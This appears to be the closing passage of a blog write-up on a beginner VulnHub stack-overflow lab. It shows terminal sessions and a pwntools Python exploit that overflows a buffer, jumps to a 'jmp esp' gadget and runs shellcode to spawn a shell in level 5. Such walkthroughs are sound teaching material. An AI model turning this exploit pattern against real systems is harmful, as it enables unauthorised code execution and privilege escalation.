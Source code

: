 Good! 

## Level 4

For this one, no comment: the solution is __EXACTLY__ the same as the previous level, you just need to adjust the padding to ```28 bytes```

```sh
level3@kali:~$ ./levelFour $(./exp.py)
Buf: [REDACTED]
$ id
uid=1004(level4) gid=1003(level3) groups=1003(level3)
$ cat /home/level4/level4.txt
f633cbb8f6a7ca2e0ac216b1dc2ad57a
$ 
```

## Level 5 (final)

This last challenge is a little bit different, the target input is not on the terminal arguments: once lunched the program, it asks for input and, same as before, there is a buffer overflow in the destination buffer.

So, thanks to the pwnlools, I change the same exploit of the previuos challenge, using the ```process' pipe``` to redirect the IO of my buffer

```python
#!/usr/bin/python2.7
from pwn import *

p = process("./levelFive")

buf = ''
buf += 'A' * 16

buf += p32(0xf7dd4ff7) # jmp esp
buf += asm(shellcraft.i386.linux.sh())

p.sendline(buf)
p.interactive()
```

..and immediatly I get a shell! Amazing! 

```sh
level4@kali:~$ ./shell.py 
[+] Starting local process './levelFive': pid 7418
[*] Switching to interactive mode
Enter your input: Buf: [REDACTED]
$ id
uid=1004(level4) gid=1004(level4) groups=1004(level4)
$ cat /root/root.txt
cat: /root/root.txt: Permission denied
$ 
```


[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-1,290/
[2]: https://github.com/longld/peda
[3]: https://github.com/Gallopsled/pwntools
[4]: https://wiremask.eu/tools/buffer-overflow-pattern-generator/
[5]: https://twitter.com/MrMoDDoM